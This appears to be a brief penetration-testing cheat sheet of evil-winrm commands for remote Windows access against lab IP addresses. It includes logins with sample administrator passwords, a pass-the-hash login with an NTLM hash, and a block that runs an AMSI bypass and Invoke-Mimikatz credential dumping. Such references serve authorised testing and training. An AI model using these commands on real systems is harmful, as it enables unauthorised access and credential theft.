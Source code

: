 #windows #powershell
Connect with Scripts inside the ps1_scripts folder. and log all output.
`evil-winrm  -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!' -s '/home/foo/ps1_scripts/' -e '/home/foo/exe_files/' -l`

Connect with SSL enabled
`evil-winrm  -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!' -s '/home/foo/ps1_scripts/' -e '/home/foo/exe_files/'`

Connect with Hash
	NTLM Hash
`evil-winrm -i 192.168.1.19 -u administrator -H 32196B56FFE6F45E294117B91A83BF38`

Connect with default escalation scripts
``
```bash
evil-winrm -i 192.168.1.19 -u administrator -p Ignite@987 -s /opt/privsc/powershell

Bypass-4MSI
Invoke-Mimikatz.ps1
Invoke-Mimikatz
```


Run from Docker
`docker run --rm -ti --name evil-winrm  oscarakaelvis/evil-winrm -i 192.168.1.105 -u Administrator -p 'Ignite@987'`

Run with PEM 
`evil-winrm -i 10.129.227.105 -c certificate.pem -k priv-key.pem -S`

